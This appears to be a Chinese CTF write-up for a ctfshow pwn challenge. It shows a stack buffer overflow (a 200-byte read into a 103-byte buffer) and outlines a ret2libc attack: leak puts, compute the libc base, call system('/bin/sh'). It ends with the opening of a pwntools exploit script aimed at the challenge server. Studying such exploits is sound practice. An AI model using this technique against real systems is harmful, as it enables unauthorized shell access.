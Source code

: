 

关键函数就这一个：

```
ssize_t ctfshow()
{
  char buf[103]; // [esp+Dh] [ebp-6Bh] BYREF

  return read(0, buf, 200u);
}
```



栈上空间：

```
-0000006B buf             db 103 dup(?)
-00000004 var_4           dd ?
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
```



既没有system，也没有/bin/sh

那就是要我们找偏移，找system的地址和/bin/sh的地址

有一个puts函数，所以应该要puts打印出puts的地址，然后相减计算基址，然后找libc中system和/bin/sh的偏移，加上基址就可以dump到内存里去，实现shellcode





如果要走本地的

```python
elf = ELF('/lib/i386-linux-gnu/libc.so.6')
```

你可以通过ldd进行查询

![image-20241101213509470](../_media/image-20241101213509470.png)

后续程序不再是dump，而是symbols



注意LibcSearcher可能要你选择libc版本，选择下面：

```
libc6-i386_2.27-3ubuntu1_amd64
```



exp：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28256

p = remote(ip,port)
elf = ELF('./pwn')
libc = ELF("/lib/i386-linux-gnu/libc.so.6")

```